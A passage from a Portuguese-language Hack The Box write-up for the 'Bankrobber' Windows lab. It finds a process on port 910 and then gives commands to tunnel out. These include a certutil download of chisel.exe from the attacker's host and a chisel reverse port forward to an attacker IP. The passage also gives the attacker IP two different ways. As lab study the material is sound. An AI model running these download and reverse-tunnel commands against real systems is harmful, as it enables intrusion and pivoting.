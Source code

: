 ![tasklist](Assets/HTB-Windows-Insane-Bankrobber/tasklist.png)

Através do PID, verificamos que o programa que está a ocupar esta porta é o bankv2.exe.

poderiamos tratar de fazer o download do programa para verificar o que faz e tratar de encontrar um possível BufferOverFlow, mas em primeiro lugar, quero saber o que está a fazer neste momento...

Para ser mais comodo, vou fazer um PortForwarding desta porta 910 para a minha porta 910 da minha máquiina kali.

Para isso, irei utilizar o chisel do jpillora (https://github.com/jpillora/chisel/releases)

Enviar o chisel windows para a máquina alvo, e guarda a versão linux na minha máquina

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_windows_amd64.gz

mv chisel_1.7.6_linux_amd64.gz chisel.elf.gz
mv chisel_1.7.6_windows_amd64.gz chisel.exe.gz

gunzip *.gz

sudo su
chisel.elf server --reverse -p 8008

# Target Machine
certutil -urlcache -f http://10.10.14.19/chisel.exe
chisel.exe client 10.10.14.9:8008 R:910:127.0.0.1:910
```
